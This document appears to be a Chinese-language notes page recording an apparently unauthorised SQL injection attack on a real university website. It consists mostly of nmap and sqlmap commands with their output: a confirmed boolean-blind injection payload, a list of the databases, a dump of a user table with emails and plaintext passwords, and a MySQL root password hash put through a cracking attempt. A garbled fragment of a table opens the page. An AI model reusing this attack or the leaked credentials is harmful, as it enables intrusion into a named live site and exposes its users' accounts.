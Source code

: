 


sql测试注入 http://www.hustwenhua.net/Institution/Index?ID=18

[17 tables]
+---------------------------------------+
| COLUMNS                               |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
|
                             |
|
                              |
|
                               |
                                |
| CHARACTER
                        |
| COLLATION
|
| COLLATION
                            |
| COLUMN_PR







                     |
| GLOBAL_ST



                         |
| GLOBAL_VA






                      |
| \n\n\n\n\n\n\n\n\n                    |
| \n\n\n\n\n\n\n\n                      |
| \n\n\n\n\n                            |

```bash
moon@moon-Default-string:~$ nmap www.hustwenhua.net -A
\
Starting Nmap 7.60 ( https://nmap.org ) at 2017-11-27 13:05 CST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for www.hustwenhua.net (119.97.235.172)
Host is up (0.0056s latency).
rDNS record for 119.97.235.172: 172.235.97.119.broad.wh.hb.dynamic.163data.com.cn
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-server-header: 
|   Microsoft-HTTPAPI/2.0
|_  Microsoft-IIS/7.5
|_http-title: \xE6\x96\x87\xE5\x8D\x8E\xE5\xAD\xA6\xE9\x99\xA2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

```bash
$ sqlmap -u http://media.hustwenhua.net/index.php/home/index/schoollist/cid/4*.html

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.1.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:31:20

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q]
[14:31:22] [INFO] testing connection to the target URL
[14:31:22] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[14:31:22] [INFO] testing if the target URL is stable
[14:31:23] [INFO] target URL is stable
[14:31:23] [INFO] testing if URI parameter '#1*' is dynamic
[14:31:23] [WARNING] URI parameter '#1*' does not appear to be dynamic
[14:31:23] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[14:31:23] [INFO] testing for SQL injection on URI parameter '#1*'
[14:31:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:31:24] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[14:31:24] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0 boolean-based blind - Parameter replace' injectable (with --code=200)
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[14:31:33] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:31:33] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:31:34] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: http://media.hustwenhua.net:80/index.php/home/index/schoollist/cid/(SELECT (CASE WHEN (1468=1468) THEN 1468 ELSE 1468*(SELECT 1468 FROM INFORMATION_SCHEMA.PLUGINS) END)).html
---
[14:31:41] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2008 R2 or 7
web application technology: Microsoft IIS 7.5, ASP.NET
back-end DBMS: MySQL >= 5.0
[14:31:41] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 34 times
[14:31:41] [INFO] fetched data logged to text files under '/home/moon/.sqlmap/output/media.hustwenhua.net'

[*] shutting down at 14:31:41
```
 
 dbs
```bash
moon@moon-Default-string:~/workspace/nodejs-master$ sqlmap -u http://media.hustwenhua.net/index.php/home/index/schoollist/cid/4*.html --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.10#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:35:17

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q]
[14:35:19] [INFO] resuming back-end DBMS 'mysql'
[14:35:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: http://media.hustwenhua.net:80/index.php/home/index/schoollist/cid/(SELECT (CASE WHEN (1468=1468) THEN 1468 ELSE 1468*(SELECT 1468 FROM INFORMATION_SCHEMA.PLUGINS) END)).html
---
[14:35:19] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2008 R2 or 7
web application technology: Microsoft IIS 7.5, ASP.NET
back-end DBMS: MySQL >= 5.0
[14:35:19] [INFO] fetching database names
[14:35:19] [INFO] fetching number of databases
[14:35:19] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:35:19] [INFO] retrieved: 7
[14:35:20] [INFO] retrieved: information_schema
[14:35:24] [INFO] retrieved: mysql
[14:35:25] [INFO] retrieved: performance_schema
[14:35:30] [INFO] retrieved: pinggu
[14:35:31] [INFO] retrieved: show
[14:35:32] [INFO] retrieved: test
[14:35:33] [INFO] retrieved: wechatvote
available databases [7]:
[*] `show`
[*] information_schema
[*] mysql
[*] performance_schema
[*] pinggu
[*] test
[*] wechatvote

[14:35:36] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 218 times
[14:35:36] [INFO] fetched data logged to text files under '/home/moon/.sqlmap/output/media.hustwenhua.net'
``` 


当前数据库:show
当前用户: root@localhost
所有用户: root@127.0.0.1
密码
数据库表:
Database: show
[22 tables]
+----------------------+
| show_describe        |
| show_describe1       |
| show_describe2       |
| show_describe3       |
| show_describe4       |
| show_lunbo           |
| show_magazine        |
| show_mediaarticle    |
| show_medialanmu      |
| show_musicarticle    |
| show_musiclanmu      |
| show_photoarticle    |
| show_photolanmu      |
| show_user            |
| show_videoarticle    |
| show_videolanmu      |
| show_viewarticle     |
| show_viewlanmu       |
| show_wordarticle     |
| show_wordlanmu       |
| show_xiaoyuanarticle |
| show_xiaoyuanlanmu   |
+----------------------+
用户表字段
Database: show
Table: show_user
[5 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | non-numeric |
| id       | numeric     |
| password | non-numeric |
| status   | numeric     |
| username | non-numeric |
+----------+-------------+

用户表数据
Database: show
Table: show_user
[8 entries]
+-------------------+----+--------------+--------+------------+
| email             | id | password     | status | username   |
+-------------------+----+--------------+--------+------------+
| 123@qq.com        | 1  | Media147@qsx | 0      | dianzishu! |
| 2029954400@qq.com | 5  | 2029954400   | 1      | 外宣         |
| 1778772333@qq.com | 6  | 573411       | 2      | 电视台        |
| 3                 | 7  | ITM2017      | 3      | 新媒体        |
| 4                 | 8  | xinwenbu     | 4      | 新闻部        |
| 1836314582@qq.com | 9  | YDWHSSBX     | 5      | 广播台        |
| 6                 | 10 | 123456       | 6      | 校刊         |
| 7                 | 11 | seyingwenhua | 7      | 摄影部        |
+-------------------+----+--------------+--------+------------+

```bash
moon@moon-Default-string:~/workspace/nodejs-master$ sqlmap -u http://media.hustwenhua.net/index.php/home/index/schoollist/cid/4*.html --passwords
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:45:05

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q]
[14:45:29] [INFO] resuming back-end DBMS 'mysql'
[14:45:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: http://media.hustwenhua.net:80/index.php/home/index/schoollist/cid/(SELECT (CASE WHEN (1468=1468) THEN 1468 ELSE 1468*(SELECT 1468 FROM INFORMATION_SCHEMA.PLUGINS) END)).html
---
[14:45:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2008 R2 or 7
web application technology: Microsoft IIS 7.5, ASP.NET
back-end DBMS: MySQL >= 5.0
[14:45:29] [INFO] fetching database users password hashes
[14:45:29] [INFO] fetching database users
[14:45:29] [INFO] fetching number of database users
[14:45:29] [INFO] resumed: 2
[14:45:29] [INFO] resumed: 'root'@'localhost'
[14:45:29] [INFO] resumed: 'root'@'127.0.0.1'
[14:45:29] [INFO] fetching number of password hashes for user 'root'
[14:45:29] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:45:29] [INFO] retrieved: 1
[14:45:29] [INFO] fetching password hashes for user 'root'
[14:45:29] [INFO] retrieved: *A54AE3468F9176BCB38FA02037CDC820BC36DEA5
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q]
[14:45:48] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[14:45:50] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[14:45:52] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:45:52] [INFO] starting 4 processes
[14:45:56] [WARNING] no clear password(s) found
database management system users password hashes:
[*] root [1]:
    password hash: *A54AE3468F9176BCB38FA02037CDC820BC36DEA5

[14:45:56] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 183 times
[14:45:56] [INFO] fetched data logged to text files under '/home/moon/.sqlmap/output/media.hustwenhua.net'

[*] shutting down at 14:45:56